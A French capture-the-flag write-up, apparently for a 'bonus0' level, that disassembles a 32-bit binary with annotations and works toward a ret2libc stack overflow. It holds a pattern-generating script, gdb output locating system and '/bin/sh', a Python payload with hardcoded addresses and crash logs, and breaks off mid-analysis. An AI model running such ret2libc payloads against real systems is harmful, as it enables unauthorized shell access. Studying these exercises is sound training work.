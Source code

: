 ```
080484b4 <p>:
 80484b4:	55                   	push   ebp
 80484b5:	89 e5                	mov    ebp,esp
 80484b7:	81 ec 18 10 00 00    	sub    esp,0x1018
 80484bd:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]		; ebp+12 (2e argument)
 80484c0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c3:	e8 e8 fe ff ff       	call   80483b0 <puts@plt>			; puts(" - ")
 80484c8:	c7 44 24 08 00 10 00 	mov    DWORD PTR [esp+0x8],0x1000
 80484cf:	00 
 80484d0:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 80484d6:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax		; char buff[0x1008];
 80484da:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 80484e1:	e8 9a fe ff ff       	call   8048380 <read@plt>			; read(0, buff, 0x1000);
 80484e6:	c7 44 24 04 0a 00 00 	mov    DWORD PTR [esp+0x4],0xa
 80484ed:	00 
 80484ee:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 80484f4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f7:	e8 d4 fe ff ff       	call   80483d0 <strchr@plt>
 80484fc:	c6 00 00             	mov    BYTE PTR [eax],0x0			; *strchr(buff, '\n') = 0
 80484ff:	8d 85 f8 ef ff ff    	lea    eax,[ebp-0x1008]
 8048505:	c7 44 24 08 14 00 00 	mov    DWORD PTR [esp+0x8],0x14
 804850c:	00 
 804850d:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048511:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048514:	89 04 24             	mov    DWORD PTR [esp],eax
 8048517:	e8 d4 fe ff ff       	call   80483f0 <strncpy@plt>		; strncpy(char strn[] (1e arg), buff, 20)
 804851c:	c9                   	leave  
 804851d:	c3                   	ret    

0804851e <pp>:
 804851e:	55                   	push   ebp
 804851f:	89 e5                	mov    ebp,esp
 8048521:	57                   	push   edi
 8048522:	53                   	push   ebx
 8048523:	83 ec 50             	sub    esp,0x50
 8048526:	c7 44 24 04 a0 86 04 	mov    DWORD PTR [esp+0x4],0x80486a0	; " - "
 804852d:	08 
 804852e:	8d 45 d0             	lea    eax,[ebp-0x30]					; char str2[20]
 8048531:	89 04 24             	mov    DWORD PTR [esp],eax
 8048534:	e8 7b ff ff ff       	call   80484b4 <p>						; p(str2, " - ")
 8048539:	c7 44 24 04 a0 86 04 	mov    DWORD PTR [esp+0x4],0x80486a0	; " - "
 8048540:	08 
 8048541:	8d 45 e4             	lea    eax,[ebp-0x1c]					; char str3[28]
 8048544:	89 04 24             	mov    DWORD PTR [esp],eax
 8048547:	e8 68 ff ff ff       	call   80484b4 <p>						; p(str3, " - ")
 804854c:	8d 45 d0             	lea    eax,[ebp-0x30]
 804854f:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048553:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]			; copy_result = ebp+8
 8048556:	89 04 24             	mov    DWORD PTR [esp],eax
 8048559:	e8 42 fe ff ff       	call   80483a0 <strcpy@plt>				; strcpy(copy_result, str2)
 804855e:	bb a4 86 04 08       	mov    ebx,0x80486a4					; " "
 8048563:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]			; copy_result
 8048566:	c7 45 c4 ff ff ff ff 	mov    DWORD PTR [ebp-0x3c],0xffffffff	; -1
 804856d:	89 c2                	mov    edx,
 804856f:	b8 00 00 00 00       	mov    eax,0x0
 8048574:	8b 4d c4             	mov    ecx,DWORD PTR [ebp-0x3c]
 8048577:	89 d7                	mov    edi,edx
 8048579:	f2 ae                	repnz scas al,BYTE PTR es:[edi]
 804857b:	89 c8                	mov    eax,ecx
 804857d:	f7 d0                	not    eax								; strlen(copy_result)
 804857f:	83 e8 01             	sub    eax,0x1
 8048582:	03 45 08             	add    eax,DWORD PTR [ebp+0x8]			; copy_result + strlen(copy_result);
 8048585:	0f b7 13             	movzx  edx,WORD PTR [ebx]				; 0x80486a4 sur 2 octets donc on copy " \0"
 8048588:	66 89 10             	mov    WORD PTR [eax],dx				; *(copy_result + strlen(copy_result)) = " \0"
 804858b:	8d 45 e4             	lea    eax,[ebp-0x1c]					; eax = str3
 804858e:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048592:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048595:	89 04 24             	mov    DWORD PTR [esp],eax
 8048598:	e8 f3 fd ff ff       	call   8048390 <strcat@plt>				; strcat(copy_result, str3)
 804859d:	83 c4 50             	add    esp,0x50
 80485a0:	5b                   	pop    ebx
 80485a1:	5f                   	pop    edi
 80485a2:	5d                   	pop    ebp
 80485a3:	c3                   	ret

080485a4 <main>:
 80485a4:	55                   	push   ebp
 80485a5:	89 e5                	mov    ebp,esp
 80485a7:	83 e4 f0             	and    esp,0xfffffff0
 80485aa:	83 ec 40             	sub    esp,0x40					; 64
 80485ad:	8d 44 24 16          	lea    eax,[esp+0x16]			; char str[42]
 80485b1:	89 04 24             	mov    DWORD PTR [esp],eax
 80485b4:	e8 65 ff ff ff       	call   804851e <pp>				; pp(str)
 80485b9:	8d 44 24 16          	lea    eax,[esp+0x16]
 80485bd:	89 04 24             	mov    DWORD PTR [esp],eax
 80485c0:	e8 eb fd ff ff       	call   80483b0 <puts@plt>		; puts(str)
 80485c5:	b8 00 00 00 00       	mov    eax,0x0
 80485ca:	c9                   	leave  
 80485cb:	c3                   	ret    
```


On va générer de très grandes strings :
```js
var letters = "abcdefghijklmnopqrstuvwxyz"  + "ABCDEFGHIJKLMNOPQRSTUVWXYZ";

function gen() {
    var str = "";
    var repeat = 1;
    while (str.length < 4100) {
        for (let i = 0; i < letters.length && str.length < 4100; i++) {
        str += letters[i % letters.length].repeat(repeat);
    }
        repeat++;
    }
    return str.slice(0, 4100);
}
console.log(gen());
```

Pour la première partie, on utilise les lettres : `abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`
Et pour la seconde : `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789`

Comme ça, on pourra trouver facilement l'endroit où on segfault et où on peut faire un `ret2libc` en modifiant l'adresse de `ret`.

On peut voir qu'après avoir injecté les deux strings, on obtient : `0x4d4c4b4a` soit `MLKJ` donc en JKLM en reverse. On a donc deux endroits où ça peut se produire, où au niveau du 35 caractère de la première partie, ou au niveau du 9e de la seconde. On aura juste à changer la seconde string pour savoir:
`letters = "0123456789" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ" + "abcdefghijklmnopqrstuvwxyz" `

`0x43424139`  => `9ABC`, par conséquent, c'est bel et bien la seconde chaine de caractère utilisée.

Donc, on devrais pouvoir appeler `system` en mettant `012345678<system_address><padding [ 4100 - 13 ]>`

Bon, offset de `/bin/sh` dans `objdump -s /lib/i386-linux-gnu/libc-2.15.so` = `0x160c58`

```
(gdb) x/1s 0xb7e2c000 +  0x160c58
0xb7f8cc58:	 "/bin/sh"
(gdb) x/10xw system
0xb7e6b060 <system>:	0x891cec83
```
donc on a l'adresse de `system` et de `/bin/sh`, testons:
```py
print("A" * 4095 + "\n")
print("0\x58\xcc\xf8\xb7\x58\xcc\xf8\xb7\x60\xb0\xe6\xb7" + "\x58\xcc\xf8\xb7" * 1019)
```

Marche pas. La commande `dmesg` nous renvoie les logs du crash du process:
`bonus0[3552]: segfault at b7f8ccd0 ip b7f8cc5f sp bffff774 error 7 in libc-2.15.so[b7e2c000+1a3000]`

Pour le debug, notons quelques return addresses :
- `0x080485b9` (`pp` dans le main)
- `0x08048539` (`p` dans `pp`)
- `0x0804854c` (`p` dans `pp`)

Le bug se situe lors du `ret` dans main.
Adresse de base de retour de main est : `0xb7e454d3`. On peut analyser la return adresse pour savoir ce qui se passe :
1. Dans le main, elle est au top la stack
2. Après l'instruction `and    esp,0xfffffff0`, on a perdu 12 octets sur le pointeur `esp`.
3. On retire à `esp` 64 octets, on se retrouve donc avec un espace de 76 octets avant d'écraser l'adresse du main.
4. On va déclarer notre buffer à `esp + 22`, ce qui nous rapproche à 44 octets de notre adresse.
5. En arrivant dans `pp`, on insère les adresses de retour, et on pointe sur `0xbffff6e0`, soit désormais 92 octets avant l'adresses de retour
6. 